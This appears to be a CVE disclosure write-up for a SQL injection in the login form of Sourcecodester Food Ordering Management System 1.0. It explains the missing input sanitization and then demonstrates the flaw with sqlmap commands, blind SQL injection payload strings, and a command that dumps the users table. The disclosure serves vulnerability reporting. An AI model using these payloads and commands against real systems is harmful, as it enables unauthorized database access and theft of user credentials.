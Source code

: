 ```yaml
---
title: CVE-2024-6213
draft: false
tags:
  - cve
---
```


# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (login)
## CVE-2024-6213

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: router.php

Injection parameter: username


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The username and password fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the login.php:

`http://172.16.76.1/foms/login.php`

![image](https://github.com/jadu101/CVE/assets/76433661/5f48cb34-18a4-4b03-8848-964b87b60b94)

We will first intercept the login traffic using Burp Suite. Web app is using router.php for login:

![image-1](https://github.com/jadu101/CVE/assets/76433661/cf2eb00b-1072-4879-871d-fea55e0e27ee)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter username is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_login_php.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/cefe36df-faac-4a01-add2-d8ea640290bd)

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7413=7413 AND 'DhRh'='DhRh&password=admin123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3140 FROM (SELECT(SLEEP(5)))KQvB) AND 'JGgH'='JGgH&password=admin123
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p username --dbs`

![image-3](https://github.com/jadu101/CVE/assets/76433661/fe318b8c-e4cd-4110-bcf6-f2fe4b11ece3)


Below command will dump data inside foms_db database table users:

`sqlmap -r foms_login_php.txt --batch -p username --dbs -D foms_db -T users --dump`

![image-4](https://github.com/jadu101/CVE/assets/76433661/a9cb9cc8-14a4-4517-bb1b-7e0f27c15665)
